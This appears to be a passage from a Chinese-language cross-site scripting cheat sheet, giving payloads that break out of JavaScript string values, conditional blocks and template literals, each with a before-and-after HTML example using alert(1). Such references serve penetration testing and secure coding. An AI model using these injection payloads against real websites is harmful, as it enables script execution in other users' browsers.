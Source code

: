 **一行 JS 内多个值**
```js
/alert(1)//\
/alert(1)}//\
```

示例
```html
<script>
    var a = 'example'; var b = 'example';
</script>

<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

**条件控制语句内的值**
```js
'}alert(1);{'
\'}alert(1);{//
```

示例
```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'example';
  }
</script>

<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```

**反引号内的值**
```js
${alert(1)}
```

示例
```html
<script>
    var dapos = `example`;
</script>

<script>
    var dapos = `${alert(1)}`;
</script>
```
